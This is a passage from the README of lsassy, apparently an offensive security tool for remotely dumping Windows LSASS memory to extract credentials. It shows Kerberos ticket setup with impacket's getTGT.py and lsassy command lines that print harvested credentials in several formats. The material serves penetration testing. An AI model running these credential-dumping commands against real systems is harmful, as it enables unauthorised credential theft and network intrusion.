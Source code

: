 #### Kerberos

You can also authenticate using Kerberos. For this to work, you will need to have a valid ticket saved on disk, and ticket's path needs to be provided in `KRB5CCNAME` environment variable. For testing purpose, this can be achieved using impacket **getTGT.py** tool.

```bash
getTGT.py hackn.lab/jsnow:WinterIsComing -dc-ip dc01.hackn.lab
```

This command will request a TGT and save it in `jsnow.ccache` file.

In order for **lsassy** to know which ticket to use, you'll need to explicitly set the ticket's path in `KRB5CCNAME` environment variable.

```bash
export KRB5CCNAME="/home/pixis/jsnow.ccache"
```

When it's correctly configured, you should be able to use that ticket for authentication using `-k` parameter. Since you're using this ticket, you don't need to provide other authentication information anymore.

```bash
lsassy -k server01.hackn.lab
```

Note that for this to work, you will need a valid DNS configuration, either dynamic with a valid DNS server, or static using `hosts` file. Moreover, you should always use FQDN when generating tickets and using **lsassy**, i.e. use `server01.hackn.lab` instead of `server01`.

### Output

#### Screen format

**lsassy** can output credentials in different formats using `--format` or `-f` flag

##### Pretty

Default format, nice and clean credentials are displayed with golden colors. In credz we trust.

```
lsassy [-d domain] -u pixis -p P4ssw0rd --format pretty targets
```

##### Json

Displays result in json format. Can be useful when called from a script
```
lsassy [-d domain] -u pixis -p P4ssw0rd --format json targets
```

##### Grep

Grepable output that can be useful in one-liners

```
lsassy [-d domain] -u pixis -p P4ssw0rd --format grep targets
```
